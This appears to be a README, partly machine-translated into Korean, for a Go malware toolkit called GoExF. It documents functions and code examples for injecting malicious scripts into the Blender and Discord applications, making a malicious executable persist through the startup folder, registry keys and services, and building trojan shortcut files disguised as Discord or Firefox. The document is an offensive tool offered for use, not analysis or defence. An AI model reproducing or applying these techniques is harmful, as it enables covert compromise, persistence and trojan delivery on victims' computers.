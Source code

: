 # 설치 #
`go get github.com/F-r-o-i-d/GoExF/

# 선적 서류 비치
🔴 -> 관리자 필요
🟢 -> 관리자가 필요하지 않음

⚫ -> 대상에 표시
⚪ -> 대상에게 보이지 않음

## 코드 주입
**대상 컴퓨터에서 코드를 실행합니다. **

`github.com/F-r-o-i-d/GoExF/GoExF/GoSploit/InfectApp`

#### - `InfectApp.InfectBlender(` *페이로드(Payload)* ` )` [🔴⚪]

블렌더 코드에 악성 스크립트(배치) 주입 
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/InfectApp"

func main(){
	InfectApp.InfectBlender("start calc.exe")
}
```
___
#### - `InfectApp.InfectDiscord(` *페이로드(Payload)* ` )` [🟢⚪]

디스코드 코드에 악성 스크립트(nodejs) 주입 

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/InfectApp"

func main(){
	InfectApp.InfectDiscord("while(true){}") // stuck discord on loading
}

```
___
## 고집
**악의적인 프로그램을 대상 시스템에 고정시킵니다. **

`github.com/GoExF/GoExF/GoSploit`

#### - `GoSploit.StartUpWdirectories()`[🟢⚫]

copy evil .exe -> shell:startup

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWdirectories() 
}
```
___

#### - `GoSploit.StartUpWdregedit()`[🔴⚫]

시작 시 exe를 실행하기 위한 키 regedit 생성

### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWdregedit() 
}
```
___
#### - `GoSploit.StartUpWservice(ServiceName)`[🔴⚪]

시작할 때 exe를 실행하는 서비스 만들기 
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit"

func main(){
	GoSploit.Initialize()
	GoSploit.StartUpWservice() 
}
```
___
## Trojan

**나쁜 파일을 숨겨서 좋은 것처럼 보이도록 만드십시오.**

`import EvilFile "github.com/GoExF/GoExF/GoSploit/EvilFile"`

#### - EvilFile.Lnk [🟢⚫]

```
Discord := EvilFile.EvilLnk{
	Name:        "Discord.lnk",
	Payload:     "evilCode",
	Path:        "$home\\Desktop\\",
	Interface:   "cmd.exe / powershell.exe",
	IconPath:    "Discord.exe path / Discord.ico path",
	Description: "Discord ShortCut",
}
Discord.Build()
```
### ex :
```golang
package main

import "github.com/GoExF/GoExF/GoSploit/EvilFile"

func main(){
	Firefox := EvilFile.EvilLnk{
		Name:        "Firefox.lnk",
		Payload:     "Restart-Computer -Froce",
		Path:        "$home\\Desktop\\",
		Interface:   "powershell.exe",
		IconPath:    "C:\\Program Files\\Mozilla Firefox\\firefox.exe",
		Description: "firefox",
	}
	Firefox.Build()
}
```
